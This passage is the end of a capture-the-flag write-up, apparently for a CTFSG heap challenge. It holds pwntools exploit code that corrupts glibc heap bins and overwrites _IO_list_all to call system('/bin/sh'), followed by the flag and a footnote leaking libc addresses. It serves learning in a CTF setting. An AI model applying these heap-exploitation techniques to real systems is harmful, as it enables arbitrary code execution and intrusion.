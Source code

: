 ```python
# At this point, we should have a fake unsorted bin pointer ready to be freed at [1].
free(1)
# repeat heap overflow
free(0)
free(4)
free(0)
fakechunk = fit({
    0x00: heap_leak-0x10, # fd of the next [0] allocated; 0x.*030
    0x28: 0x41, # size
    0x30: 0,    # clean fd
})
add(40, fakechunk)
add(40, b'E'*12)
add(40, b'A'*4)
# next allocation will be a write over the freed unsorted chunk
add(40, fit({
    0x00: b'/bin/sh\0',
    0x08: 0x61,
    0x18: context.libc.symbols['_IO_list_all']-0x10,
    0x20: 2,
    0x28: 3
}))
free(3)
add(80, fit({
    0x08: 0x10,
    0x18: 0x11,
    0x30: 0,
    0x48: heap_leak-0x40+0xd0+0x50-0x18,
    0x50: context.libc.symbols['system']
}))
#gdb.attach(r)

select(1)
r.sendlineafter('(degrees) => ', b'20')
r.interactive() # this works like.... 20% of the time 
```

In spite of the roundabout way I went about handling this challenge, I got first blood! I hope I'll never have to repeat this again.

## Flag

`CTFSG{bb_10h_15_4_l13_p3p3h4nd5}`

## Footnotes

1. There's a pure-fastbin solution for this challenge. Start by leaking libc:

   ```c
   C.symbols['puts'] = unpack(view((0x400570-E.symbols['fengshui'])//context.bytes)[:-1].ljust(context.bytes,b'\0'))
   ```
   